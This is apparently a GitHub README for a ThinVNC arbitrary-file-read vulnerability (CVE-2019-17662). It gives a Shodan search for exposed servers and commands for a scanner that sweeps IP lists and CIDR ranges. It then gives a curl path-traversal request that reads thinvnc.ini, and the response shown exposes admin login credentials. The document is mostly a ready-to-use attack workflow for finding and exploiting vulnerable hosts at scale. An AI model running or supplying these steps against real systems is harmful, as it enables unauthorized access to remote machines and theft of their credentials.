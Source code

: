 ## CVE-2019-17662
![](https://img.shields.io/static/v1?label=Product&message=ThinVNC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1.0b1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Arbitrary%20File%20Read&color=red)


- Shodan dork:
```
"ThinVNC"
```
or
```
pip install argparse colorama
```
```
python scanner.py file_list_ip_cidr 80 -o results.txt
```
```
python scanner.py file_list_ip_cidr 80, 8080-8090 -o results.txt
```
```
python scanner.py 192.168.1.1/24 80,8080-8090 -o results.txt
```
- POC:
```
curl -k -X 'GET' "http://target_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
